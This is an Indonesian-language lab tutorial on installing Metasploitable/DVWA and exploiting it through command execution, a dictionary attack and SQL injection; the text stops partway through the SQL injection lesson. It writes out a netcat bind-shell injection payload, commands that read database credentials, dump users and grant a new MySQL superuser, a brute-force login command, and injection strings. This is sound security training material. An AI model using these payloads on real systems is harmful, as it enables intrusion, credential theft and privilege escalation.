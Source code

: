 #DVWA
DVWA adalah perangkat lunak berbasis website yang didesain memiliki celah agar dapat digunakan untuk berlatih. Dalam hal ini akan digunakan DVWA sebagai eksploitable platform dan kali linux host yang akan kita gunakan untuk mengeksploit.
##Instalasi DVWA
1. Pertama kita harus memiliki metasploitable
![](metasploitable.PNG)
2. Setelah itu, kita ekstrak
![](ekstrakmetasploitable.PNG)
3. Lalu kita buka folder metasploitable tersebut
![](isimetasploitable.PNG)
4. Selanjutnya kita jalankan program virtualbox dan buat virutal mesin baru lalu kita beri nama "metasploitable"
![](buatmetasploitable.PNG)
5. Setelah itu kita diminta memasukkan besar memory
![](memory.PNG)
6. Setelahnya kita diminta memilih mekanisme hardisk yang kita gunakan. Kita akan menggunakan pilihan ketiga lalu klik tombol folder di sebelah kanan  
![](mekanismehardisk.PNG)
7. Apabila tombol folder kita klik, maka akan muncul popup untuk memilih virtual disk. Kita pilih virtual disk metasploitable yang ada pada step 3.
![](pilihmetasploitable.PNG)
8. Apabila kita sudah memilih, tampilan akan menjadi seperti dibawah ini lalu kita klik buat
![](setelahpilih.PNG)
9. Apabila berhasil, maka virtual mesin dengan nama "metasploitable" akan muncul pada daftar virtual mesin
![](daftarmesin.PNG)
10. Selanjutnya buka pengaturan jaringan pada virtual mesin yang baru saja kita buat. Kita pilih "Adaptor Ter-bridge" pada pilihan "Terpasang pada:"
![](pengaturanjaringan.PNG)
11. Jalankan virtual mesin yang baru saja kita buat. Lalu kita masuk dengan menggunakan username: **msfadmin** dan password: **msfadmin**
![](metasploitablelogin.PNG)
12. Apabila kita berhasil login akan muncul tampilan seperti di bawah ini
![](metasploitablelandingpage.PNG)
13. Ketikkan **ifconfig** untuk mengetahui ip dari metasploitable yang telah kita buat. Dari gambar dibawah ini dapat kita lihat bahwa metasploitable kita mendapatkan ip **192.168.1.28**
![](ipmetasploitable.PNG)
14. Kita bisa mengakses metasploitable yang kita bangun dengan cara mengetikkan alamat ip dari metasploitable yang kita buat. Dalam hal ini ip metasploitable kita adalah **192.168.1.28**
![](bukadvwa.PNG)
15. Setelah itu kita diarahkan ke sebuah halaman yang berisi daftar modul metasploitable. Dalam hal ini kita hanya akan menggunakan dvwa. Kita klik **DVWA**
![](moduldvwa.PNG)
16. Selanjutnya kita akan diarahkan ke halaman login DVWA
![](logindvwa.PNG)

##Eksploit DVWA
## Lesson 4(Using Metasploit with Command Execution)
Pada bagian ini kita akan belajar mengenai **Command Execution**. Dengan **Command Execution** memungkinkan penyerang untuk mengeksekusi perintah melalui bash   
1. Login DVWA. Default username: **admin** dan password: **password**.  
![login](logindvwa.PNG)  
2. Ubah tingkat kesulitan pada DVWA menjadi low
![ubah tingkat kesulitan](dvwasecurity.PNG)
3. Pilih "command execution" pada bar navigasi
![](4/beranda.PNG)
4. Masukkan **192.168.1.28;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe** . Perintah tersebut akan membuka netcat session yang terhubung dengan bash
![](4/inputvulnerable.PNG) 
5. Selanjutnya kita buka metasploit framework pada kali linux
![](4/metasploit.PNG)
6. Apabila berhasil login akan muncul tampilan seperti di bawah ini. Pada gambar sudah terdapat syntax untuk terhubung dengan netcat session yang telah kita buat pada step 4.  
![](4/metasploitlogged.PNG)
7. Apabila terhubung kita dapat menggunakan shell dvwa seperti pada gambar di bawah ini
![](4/usercredential.PNG)
pada gambar diatas dapat diketahui current working directory dan credential kita  
8. Pada step 7 dapat kita ketahui bahwa kita berada di directory **/var/www/dvwa/vulnerabilities/exec**. Lalu kita coba akses folder **/var/www/dvwa** yang merupakan root dari dvwa dengan perintah **"cd ../.."**
![](4/dvwafolder.PNG)
9. Selanjutnya kita buka folder **config** dan gunakan perintah **cat config.inc.php** untuk mengetahui konfigurasi dbms
![](4/config.PNG)
pada gambar diatas terlihat bahwa user yang digunakan untuk mengakses dbms adalah **root** dan passwordnya adalah **''** atau kosong  
10. Kita memberikan query untuk melihat semua database ke mysql. Query: **echo "show databases;" | mysql -u root --password=""**
![](4/showdatabases.PNG)  
11. Selanjutnya kita bisa melihat daftar table yang ada pada databse dvwa. Query: **echo "use dvwa; show tables;" | mysql -u root --password=""** 
![](4/showtables.PNG)  
12. Selanjutnya kita coba melihat daftar user pada tabel users di database dvwa. Query: **echo "select * from dvwa.users;" | msql -u root --password=""**
![](4/selectusers.PNG)  
13. Selanjutnya kita coba memasukkan record baru. Query: **echo "insert into dvwa.users values(6, 'kelompok', '11', 'kelompok11', MD5('kelompok11'), 'NA');"|mysql -u root --password=""**
![](4/insertusers.PNG)
14. Pada step 10 kita dapat melihat terdapat database **mysql**. Kita coba melakukan melihat tabel yang ada pada database mysql. Query: **echo "use mysql; show tables;"|mysql -u root --password=""**
![](4/showmysqltables.PNG)
15. Selanjutnya kita coba menambahkan user baru. Query: **echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -u root --password=""**
![](4/insertusersmysql.PNG)

##Lesson 5(Using Tamper Data with crack\_web_form.pl)
Pada sesi kali ini kita akan mencoba mengeksploitasi celah pada login DVWA. Kita akan coba melakukan dictionary attack. Kita akan menggunakan tamper data untuk mengetahui request yang kita kirimkan dan cwf yang akan kita gunakan untuk melakukan dictionary attack berdasarkan detil yang telah kita peroleh dari tamper data.  
1. Pertama-tama kita harus menampabahkan plugin tamper data pada browser kita
![](5/installtamperdata.PNG)
![](5/installtamperdata2.PNG)
2. Lalu jalankan tamper data melalui menu tools pada sisi atas browser
![](5/tamperdatatools.PNG)
3. Selanjutnya kita buka halaman login DVWA. Dan masukkan username: **wew**, password: **wew**. Maka akan muncul tulisan **Login failed** yang berarti username dan password kita yang kita masukkan salah.
![](5/loginfailed.PNG)
4. Lalu kita buka tamper data yang telah kita jalankan. Terdapat beberapa request. Kita pilih yang merupakan login kita ke aplikasi dvwa.  
![](5/tamperberhasil.PNG)
5. Selanjutnya kita buat sebuah folder untuk menampung program yang akan kita gunakan untuk mengeksploit  
![](5/buatfoldercwf.PNG)
6. Selanjutnya kita download program yang akan gunakan untuk melakukan eksploit dan letakkan di dalam folder yang telah kita buat. Program dapat kita download di: **www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson5/cwf.tar.gz**  
![](5/downloadcwf.PNG)
7. Lalu ekstrak file yang telah kita download. Di dalamnya kita akan menemukan 2 buah file, satu file untuk melakukan eksploit dan satu file sebagai dictionary  
![](5/hasilekstrakcwf.PNG)
8. Kita dapat menggunakan program tersebut dengan perintah: **./crack\_web_form.pl -U admin -P password.txt -http "http://192.168.1.28/dvwa/login.php" -data "username=USERNAME&password="PASSWORD"&Login=Login" -M "Login failed** dimana:  
	- -U digunakan untuk menentukan username. Kita tentukan usernamenya adalah **admin** dengan asumsi kita akan mencoba dengan username **admin**  
	- -P untuk menentukan dictionary yang kita pakai  
	- -http untuk menentukan url  
	- -data untuk menentukan data yang kita dapat dari tamper data  
	- -M untuk menentukan pesan error  
![](5/cwfsyntax.PNG)
9. Selanjutnya apabila kita jalankan perintah pada step 8, maka proses eksploit akan dimulai dan apabila berhasil program akan menampilkan pesan **success** dan menghentikan proses  
![](5/cwfberhasil.PNG)  
dapat kita lihat bahwa username yang benar adalah **admin** dan password yang benar adalah **password**

##Lesson 6(SQL Injection)
Sql injection adalah penyerangan dengan memanfaatkan celah pada mysql. Celah tersebut memungkinkan kita menjalankan perintah ke mysql hanya dengan memasukkannya pada form masukkan yang tersedia.  
1. Pertama pada navigasi DVWA kita pilih sqlinjection  
![](6/sqlinjectionberanda.PNG)
2. Kita coba sembarang input  
![](6/sqlinjectionbasic.PNG)
pada bagian diatas memperlihatkan bahwa dvwa menampilkan id, firstname dan Surname. Namun php query yang akan kita eksploit adalah **$getid "SELECT first\_name, last\_name FROM users WHERE user\_id = '$id'";**. Id pada hasil query adalah id yang kita masukkan melalui input. Dvwa tidak benar benar melakukan query untuk menampilkan ID.  
3. Selanjutnya kita coba sql injection basic menggunakan query **%' or '1'='1'** yang akan mereturn semua record karena pernyataan **'1'='1'** selalu benar. Query yang akan kita berikan ke database adalah **$getid = "SELECT first\_name, last\_name FROM users WHERE user\_id = '%' or '1'='1'";**  
![](6/alwaystrue.PNG)
4. Selanjutnya kita dapat menggunakan melihat versi dari daabase dengan syntax **%' or 0=0 union select null, version() #**  
![](6/databaseversion.PNG)  
dapat kita lihat bahwa record paling bawah pada bagian Surname menampilkan versi dari database.  
5. 